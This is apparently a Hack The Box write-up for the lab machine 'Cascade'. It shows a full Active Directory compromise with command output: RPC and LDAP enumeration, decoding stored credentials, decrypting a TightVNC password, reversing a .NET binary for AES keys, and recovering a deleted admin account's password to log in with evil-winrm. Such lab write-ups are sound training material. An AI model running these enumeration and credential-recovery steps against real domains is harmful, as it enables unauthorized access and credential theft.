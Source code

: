 ```yaml
---
layout: post
title: HTB Machine - Cascade
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
share-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
tags: [ HTB, Active Directory, Hack the Box, Powershell,LDAP,.NET,SQLite,TightVNC,WinRM,RPC,Web,Network,Vulnerability Assessment,Active Directory,Protocols,Cryptography,Security Tools,Reversing,Authentication,SMB,DNSPY,.NET,Reconnaissance,User Enumeration,Password Reuse,Clear Text Credentials,Information Disclosure,Weak Cryptography,Hard-coded Credentials]
---
```


Enumerate smb and rpc. We found some users that we place in a file and then check if we can get a TGT. No luck. We check if there is any other info in the info of the users.

```bash
crackmapexec smb 10.10.10.182 -u ''
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)

rpcclient -U '' 10.10.10.182 -N -c 'enumdomusers' |  grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

GetNPUsers.py -no-pass -usersfile users.txt cascade.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

rpcclient -U '' 10.10.10.182 -N -c 'querydispinfo'
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull	Name: Adrian Turnbull	Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc	Name: ArkSvc	Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson	Name: Ben Hanson	Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc	Name: BackupSvc	Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman	Name: David Burman	Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe	Name: Edward Crowe	Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft	Name: Ian Croft	Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen	Name: Joseph Allen	Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand	Name: John Goodhand	Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield	Name: James Wakefield	Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson	Name: Ryan Thompson	Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson	Name: Stephanie Hickson	Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith	Name: Steve Smith	Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util	Name: Util	Desc: (null)
```

we can try to bruteforce the pass expecting for a user to use his username as pass but that would not work. Next we can try to enumerate the ldap.
```bash
ldapsearch -x -H ldap://10.10.10.182 -b 'DC=cascade,DC=local' | cat -l ruby
```
the colors of the batcat make it easier to read. We are looking for the userPrincipalName to check our users. in the batcat use /userPrincipalName to search for the parameter and press N in your keyboard to jump to the next hit. Underneath the user r.thomson we see an interesting parameter. 
```bash
cascadeLegacyPwd: clk0bjVldmE=
```
seems like is base64 so we need to decode: 
```bash
echo 'clk0bjVldmE=' | base64 -d; echo
rY4n5eva
```
verify the pass with crackmapexec.
```bash
crackmapexec winrm 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva 

crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```
We can try to do a dump of the ldap to check it. So we do the dump on our content folder and from there start a webserver. Then go to the browser and the localhost address, check all the data in the html files. 
```bash
ldapdomaindump 10.10.10.182 -u 'cascade.local\r.thompson' -p 'rY4n5eva'

python3 -m http.server 80
```
we are going to enumerate the smb now.
```bash
smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -r

smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -A '(xlsx|docx|txt|xml|reg|log|html)' -R
```

We found a file .reg if we cat it we could see a password fiel that is coded in hex. When decoding it we se that the password has a weird pattern, but we could try to decode it, if we ask saint google for 'VNC view decrypted password github' a few tools appear. The solution we found uses for tools already in the system. 

```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

echo "6bcf2a4b6e5aca0f" | xxd -ps -r | xxd
00000000: 6bcf 2a4b 6e5a ca0f                      k.*KnZ..

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

```

we dont know for which user is the credential valid but we are going to use it against our list of users to find out. After finding it we can winrm to the machine and extract the first flag.  

```bash
crackmapexec winrm 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```

From there we need to enumerate our priv and the user memberships. If we enum the audit share local group we see a comment that seems to mention a share. We will jump and enumerate then smb with the user credentials. The folder Audit$ seems to have interesting stuff, we are going to dl to our attack machine to check it. For that we will connect with smbclient, turn the prompt off so it does not ask for 'are you sure?' all the time, we activate the recurse so it goes inside each folder and then run a mget * to dl it. 

```bash
whoami /all
net user s.smith
net localgroup 'Audit Share'

smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2' -r Audit$

smbclient //10.10.10.182/Audit$ -U "s.smith%sT333ve2"
prompt off
recurse ON
mget *
```
we examine the files there is one that contains a database. Mount it to examine it. If we enum all tables we will find something intersting in one of the tables. Seems like a base64 but when decoding it the pattern does not seem correct. 

```bash
cd DB

file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

.tables

select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

go back to the dl files and lets keep examining it. There is an exe file and when displaying the strings we can see some sort of pass. testing it with crackmapexec against our list of users is unfruitful. So we might need to dig deeper into the .exe file.

```bash
strings CascAudit.exe -e l

c4scadek3y654321
```

in a windows machine install dotpeek tool and open the .exe file in it, we verify in the code that the key is that one. The code mentions an import module called crypto that is used to decrypt along with the key. The crypto module is a .dll that we have and we can also import in dotPeek. Once we have it there we can examine it and see and IV key. Also the code mentions the encryption type. 

AES mode CBC

With that info we can go to cyberchef and feed it with the input and 2 modules: From base 64 and AES decrypt

```
From base 64: standard

AES decrypt
Key: c4scadek3y654321
UTF8
IV: 1tdyjCbY1Ix49842
UTF8
Mode: CBC
Input: Raw
Output: Raw

output: w3lc0meFr31nd
```

We can verify the credentials and login as the user. 

```Bash
crackmapexec winrm 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

we know that the user is able to see deleted object from the AD and in one of the files we enumerated earlier it was mentioned that there was a TempAdmin with the same credentials as the Admin. If we google 'powershell get object deleted object filter' we get to a post with a command to show already deleted users. We will add to list all the properties. In on of the properties there is a pass coded in base64, decode it to get the password, validate it and collect the root flag.

```bash
get-adobject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d; echo
baCT3r1aN00dles

evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```